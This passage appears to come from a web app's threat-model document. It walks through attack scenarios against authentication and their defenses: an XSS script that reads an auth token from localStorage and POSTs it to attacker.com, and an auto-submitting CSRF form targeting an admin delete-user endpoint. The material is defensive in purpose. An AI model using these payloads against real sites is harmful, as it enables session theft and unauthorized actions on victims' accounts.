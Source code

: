### 8.2 Detailed Attack Scenarios

#### Scenario 1: XSS Attempt to Steal Token

**Attack Vector**:
```javascript
// Malicious script injected via XSS vulnerability
<script>
  // ❌ BEFORE: localStorage token theft
  const token = localStorage.getItem('auth-token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: token
  });
</script>
```

**Defense**:
```javascript
// ✅ AFTER: httpOnly cookie - JavaScript cannot access
document.cookie; // Does NOT include __Host-access-token
// Token is automatically sent by browser in requests
// No way for JavaScript to extract the token
```

**Outcome**: ✅ ATTACK PREVENTED - httpOnly flag makes token inaccessible to JavaScript

**Residual Risk**: 🟢 LOW (2.1) - Would require browser zero-day vulnerability

---

#### Scenario 2: CSRF Attack Attempt

**Attack Vector**:
```html
<!-- Attacker's malicious website -->
<html>
<body>
  <!-- Try to make authenticated request to victim's app -->
  <form action="https://prioritas.app/api/admin/delete-user" method="POST">
    <input type="hidden" name="userId" value="victim-user-id" />
  </form>
  <script>
    // Auto-submit form
    document.forms[0].submit();
  </script>
</body>
</html>
```

**Defense (Layer 1: SameSite)**:
```typescript
// Cookie config with SameSite=Lax
// Browser BLOCKS cookie from being sent in cross-site POST
// Request arrives without authentication cookie → 401 Unauthorized
```
